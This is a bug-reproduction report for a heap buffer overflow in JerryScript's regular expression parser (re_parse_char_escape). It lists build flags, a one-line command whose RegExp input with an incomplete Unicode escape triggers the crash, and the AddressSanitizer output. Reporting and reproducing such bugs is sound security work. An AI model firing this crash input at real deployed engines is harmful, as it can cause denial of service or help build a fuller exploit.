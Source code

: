 # Heap Buffer Overflow in re_parse_char_escape

## POC URL
https://github.com/jerryscript-project/jerryscript/issues/3871

## Compilation Environment
- Ubuntu 16.04.6 LTS (Linux 4.15.0-99-generic x86_64)
- JerryScript revision: cae6cd0
- Build flags: `--debug --compile-flag=-fsanitize=address --compile-flag=-m32 --compile-flag=-fno-omit-frame-pointer --compile-flag=-fno-common --compile-flag=-g --strip=off --system-allocator=on --logging=on --linker-flag=-fuse-ld=gold --error-messages=on --profile=es2015-subset --lto=off`

## Run Command
```
./build/bin/jerry -e "new RegExp('\"\\\\u', 'u').exec(1)"
```

## Expected Output
```
=================================================================
==105443==ERROR: AddressSanitizer: heap-buffer-overflow on address 0xf600073f at pc 0x080e94ba bp 0xffe285a8 sp 0xffe28598
READ of size 1 at 0xf600073f thread T0
    #0 0x80e94b9 in re_parse_char_escape /home/jerryscript/jerry-core/parser/regexp/re-parser.c:615
    #1 0x80ea114 in re_parse_next_token /home/jerryscript/jerry-core/parser/regexp/re-parser.c:753
    ...
SUMMARY: AddressSanitizer: heap-buffer-overflow /home/jerryscript/jerry-core/parser/regexp/re-parser.c:615 re_parse_char_escape
==105443==ABORTING
```

This demonstrates a heap buffer overflow vulnerability in the regular expression parser when processing an incomplete Unicode escape sequence.
